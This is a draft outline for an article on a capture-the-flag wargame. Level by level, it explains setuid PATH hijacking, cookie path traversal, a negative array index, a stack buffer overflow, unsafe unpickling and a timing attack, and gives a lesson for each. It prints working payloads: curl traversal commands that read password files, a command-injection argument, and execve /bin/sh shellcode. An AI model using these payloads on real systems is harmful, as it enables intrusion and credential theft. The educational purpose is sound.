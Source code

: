 - flow
    - point out what's wrong
    - how to crack
    - how to fix / make safer
    - lesson to learn
- conclusion?
    - are your programs and scripts safe enough?
    - are you sure there is no aberrant input that will wreak
      havoc?
    - better check yourself!
- read in the docs:
    __reduce__ ??? 
        seems to get executed in pickle.loads

- what is the point of this article?
- who is the intended audience and why should they care?
- is this for programmers only?
- do you need to be a security expert?
- keep the texts short, interspersed with code, visuals

## Level 1: avoid the "system" call

When you start the Live CD,
you are automatically logged in as user `level00`,
and presented the instructions:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

The goal is to get access to user `level01`,
by somehow reading his password saved in a file
in his home directory.
What can we do here?

> The system() function hands the argument command to the command
> inter-preter sh(1). 

The file `/home/level01/.password` is not readable.
The home directory of `level01` appears to be well- protected,
with permissions `0700`,
owned by user `level01` and group `level01`.

Ok, so let's look at `/levels/level01` as hinted by
the instructions we saw after login:

    $ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Ha! The user permission of the file `level01` looks unusual: `rws`.
What's that?
Normally the 3rd letter in the permission bits
is either `x` or `-`,
indicating whether the file is executable or not.
Here we have `s`,
which indicates the `setuid` bit is set.
`setuid` stands for `set-user-ID-on-execution`.
When you run a program,
normally it's executed as the current user.
But, when the `setuid` bit is set,
the program will run as the owner of the file itself,
as opposed to the current user.
So even though we are logged in as user `level00` now,
when we execute this program it will run as `level01`.

Great, so how can we use this to our benefit?
As we checked earlier,
we cannot read the `.password` file owned by `level01`.
But `level01` could.
And if we run the `setuid` program owned by `level01`,
that process could read the file too.
Well let's just run it and see what happens, eh:

    $ /levels/level01/level01
    Current time: Tue Sep  3 23:55:54 UTC 2013

Ok so that doesn't get us very far.
The program just displays the date,
that's it.
However,
if we take a look at the other files in the directory,
the file `level01.c` looks suspiciously like the source code of
the program:

    #include <stdio.h>
    #include <stdlib.h>

    int main(int argc, char **argv)
    {
      printf("Current time: ");
      fflush(stdout);
      system("date");
      return 0;
    }

The vulnerability: using the "system" call in C with a relative
path

The exploit: that PATH environment variable can be
manipulated to trick the program into executing an arbitrary
script

The lesson: Avoid the "system" call in C, or at least
validate it properly

## Level 2: always validate user input properly

The vulnerability: using a browser cookie and without validation
to read files on the server

The exploit: a cookie can be crafted
with a relative path to reveal the content of sensitive files

- What can go wrong?
- What does the program do? in a nutshell
- Examine all execution paths
- Examine where the input might end up
- How is the user input handled?
- What are valid and invalid inputs?
- What can happen to invalid input?
- What can invalid input cause?
- form parameters
- cookies

     curl http://localhost:8002/ --cookie user_details=../../home/level02/.password
     curl http://localhost:8002/ --cookie user_details=/home/level02/.password

## Level 3: validate command line arguments and array bounds

The vulnerability: using command line arguments without
validation and without checking array bounds

The exploit:
a command line argument can be crafted to trick the program into
doing something unintended
line arguments properly, and always check array bounds

- takes two inputs: a number and a string
- the number must be less than or equal to 4
- the string will be truncated to at most 63 letters
- the index is used to look up a function from an array and call
  it on the string
- so what can go wrong here?
- what happens with a negative index?
- /levels/level03/level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
- we just need the address of that function

> The system() function hands the argument command to the command
> inter-preter sh(1). 


## Level 4:

a variation on Level 3 that is harder to exploit, but with more
tragic consequences, allowing the attacker to execute arbitrary
code

- takes a string parameter from the command line
- uses the string when calling a function
- simply copies the string to a buffer
- pointless program by itself, but string copying is a common
  pattern
- how the call stack works?
    - local vars
    - return address
- write over the local variable and the return address, injecting
  shell code
- shell code?
- the fix? strncpy

    /levels/level04/level04 $(python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x90"*996 + "\xfb\x85\x04\x08"')

## Level 5: validate user input, strictly

The vulnerability: using weakly validated form input as
parameters for pickle loading in Python

The exploit: an HTTP POST
can be crafted that passes the weak validation and tricks the
program into running the injected pickle

The lesson: make sure
your input validation is strong enough, especially if it is used
to unpickle pickles in Python

    do_POST
    raw_data <- "; job: " + pickle.dumps(...)
    type, data, job = queue.run_job(data=raw_data, job=job)
    QueueUtils.enqueue('JOB', data, job)  # data is special, job
    is real
    QueueUtils.serialize(type, data, job)
        returns serialized, but there we injected job: X in front
        of the real one

- pickle.loads(...) seems to execute the pickle...

## Level 6: watch out for time-sensitive methods

The vulnerability: using time sensitive methods in password
validation

The exploit: a script can be crafted to determine the
password by measuring the execution time of validating wrong
passwords

The lesson: be careful with potentially time sensitive
methods

